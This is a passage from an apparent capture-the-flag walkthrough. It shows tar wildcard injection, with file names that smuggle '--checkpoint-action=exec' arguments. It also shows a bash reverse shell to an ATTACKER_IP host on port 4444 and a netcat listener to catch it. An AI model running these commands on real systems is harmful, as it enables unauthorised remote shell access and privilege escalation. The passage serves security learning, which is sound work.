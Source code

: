 ```bash
cd /var/www/internal/invoices
echo 'asdf' > '--checkpoint=1'
echo 'asdf' > '--checkpoint-action=exec=sh shell.sh'
```

Next add your payload into `shell.sh`. Here we'll create
a reverse shell as the kyle user

```bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Set up a listener on the attacking machine

```bash
nc -lvnp 4444
```

Then wait for the script to run

![kyle reverse shell](/images/seasurf/kyle-revshell.png)
